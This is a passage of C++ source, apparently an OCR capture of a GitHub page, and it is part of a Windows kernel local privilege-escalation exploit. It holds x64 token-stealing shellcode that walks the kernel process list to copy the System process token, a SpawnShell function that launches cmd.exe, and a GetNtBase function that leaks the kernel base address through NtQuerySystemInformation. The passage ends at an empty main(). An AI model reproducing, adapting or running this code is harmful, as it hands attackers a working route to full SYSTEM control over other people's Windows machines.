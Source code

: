 ```cpp
	0x48, 0x8B, 0x04, 0x25, 0x88, 0x01, 0x00, 0x00, 0x48, 0x8B, 
	0x80, 0x20, 0x02, 0x00, 0x00, 0x49, 0x89, 0xC1, 0x4D, 0x8B, 
	0x89, 0xF0, 0x02, 0x00, 0x00, 0x49, 0x81, 0xE9, 0xF0, 0x02, 
	0x00, 0x00, 0x49, 0x8B, 0x89, 0xE8, 0x02, 0x00, 0x00, 0x48, 
	0x83, 0xF9, 0x04, 0x75, 0xE5, 0x48, 0x05, 0x58, 0x03, 0x00, 
	0x00, 0x4D, 0x8B, 0x89, 0x58, 0x03, 0x00, 0x00, 0x4C, 0x89, 
	0x08, 0x90, 0xC3, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90
};

void SpawnShell() {

	PROCESS_INFORMATION Pi = { 0 };
	STARTUPINFOW Si = { 0 };
	Si.cb = sizeof(STARTUPINFOW);

	CreateProcess(L"C:\\Windows\\System32\\cmd.exe", nullptr, nullptr, nullptr, false, CREATE_NEW_CONSOLE, nullptr, nullptr, &Si, &Pi);
}


UINT64 GetNtBase() {
	NTSTATUS Status = 0x0;
	ULONG ReturnLength = 0;

	_NtQuerySystemInformation NtQuerySystemInformation = (_NtQuerySystemInformation)GetProcAddress(GetModuleHandleW(L"ntdll.dll"), "NtQuerySystemInformation");

	if (NtQuerySystemInformation == nullptr) {
		printf("\n[ERROR GETTING THE ADDRESS TO \"NtQuerySystemInformation\"]\n");
		return 0;
	}

	Status = NtQuerySystemInformation((SYSTEM_INFORMATION_CLASS)11, nullptr, 0, &ReturnLength);

	PSYSTEM_MODULE_INFORMATION pModuleInfo = (PSYSTEM_MODULE_INFORMATION)VirtualAlloc(nullptr, ReturnLength,
		MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

	Status = NtQuerySystemInformation((SYSTEM_INFORMATION_CLASS)11, pModuleInfo, ReturnLength, &ReturnLength);
	if (Status != 0x0) {
		printf("\nError getting the length of the Module Struct -> 0x%0.16X\n", Status);
		return 0;
	}

	printf("\n[Module Name] %s\n\t\\__[Base Address] 0x%p\n\t\\__[Module Size] %p\n",
		pModuleInfo->Modules[0].Name, pModuleInfo->Modules[0].ImageBaseAddress, pModuleInfo->Modules[0].ImageSize);

	char* ModuleName = pModuleInfo->Modules[0].Name;
	PVOID ModuleBase = pModuleInfo->Modules[0].ImageBaseAddress;
	ULONG ModuleSize = pModuleInfo->Modules[0].ImageSize;

	printf("\npModuleInfo->Modules[0] -> 0x%p\n", pModuleInfo->Modules[0]);

	VirtualFree(pModuleInfo, ReturnLength, MEM_RELEASE);

	return (UINT64)ModuleBase;
}


int main() {

```